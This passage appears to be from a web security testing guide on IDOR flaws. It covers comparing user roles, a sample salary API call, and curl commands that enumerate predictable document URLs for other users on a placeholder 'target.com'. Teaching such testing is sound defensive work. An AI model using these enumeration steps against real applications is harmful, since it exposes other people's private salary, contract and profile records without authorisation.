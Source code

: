 ### Compare User Roles

**Multi-User Testing Strategy:**
1. **Register multiple test accounts** with different privilege levels
2. **Monitor API calls** for each user role
3. **Compare object references** and access patterns
4. **Test cross-user access** with discovered parameters

**Example API Call Analysis:**
```json
// User1 API call (high privilege)
{
  "attributes": {
    "type": "salary",
    "url": "/services/data/salaries/users/1"  
  },
  "Id": "1",
  "Name": "User1"
}

// Test same call as User2 (should be denied but may work)
```

---

## 2. Mass IDOR Enumeration

### Attack Scenario: Employee Manager

**Application Setup:**
```
Employee Manager Web Application
├── /documents.php?uid=1  ← Document access
├── /contracts.php        ← Contract downloads  
└── /profile.php?uid=1    ← Profile information
```

### Insecure Parameters Exploitation

#### Static File IDOR
**Predictable File Naming:**
```html
/documents/Invoice_1_09_2021.pdf
/documents/Report_1_10_2021.pdf

Pattern: /documents/{Type}_{UID}_{Month}_{Year}.pdf
```

**Manual Testing:**
```bash
# Test different user files
curl http://target.com/documents/Invoice_2_09_2021.pdf
curl http://target.com/documents/Report_3_10_2021.pdf
```
